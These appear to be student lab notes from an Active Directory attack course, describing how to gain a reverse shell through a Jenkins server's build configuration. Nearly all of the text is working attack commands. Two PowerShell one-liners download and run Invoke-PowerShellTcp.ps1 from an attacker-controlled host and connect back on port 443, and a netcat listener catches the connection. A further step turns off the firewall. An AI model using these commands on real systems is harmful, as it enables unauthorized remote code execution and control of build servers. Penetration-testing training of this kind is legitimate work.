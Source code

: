 1. Access http://172.16.3.11:8080 (jenkins)
2. Choose any project>configure>add windows batch command 

```
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443

or

powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```
3. make sure the payload is hosted on HFS web server and turn of the firewall on the student machine.
4. use a listener then to capture the tcp connection with this command 
```
	C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
```
5. launch the Build by clicking on 'Build Now' and on the listener, you will see a connection to dcorp-ci
